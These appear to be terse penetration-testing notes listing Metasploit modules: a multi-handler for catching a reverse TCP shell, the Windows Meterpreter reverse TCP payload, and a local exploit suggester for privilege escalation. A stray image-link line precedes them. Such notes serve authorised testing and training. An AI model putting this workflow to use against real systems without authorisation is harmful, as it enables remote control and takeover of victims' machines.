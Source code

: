 manual reverse tcp (like netcat) (in msfconsole)
`exploit/multi/handler`

set payload
`windows/meterpreter/reverse_tcp`

msfconsole suggester
`post/multi/recon/local_exploit_suggester`
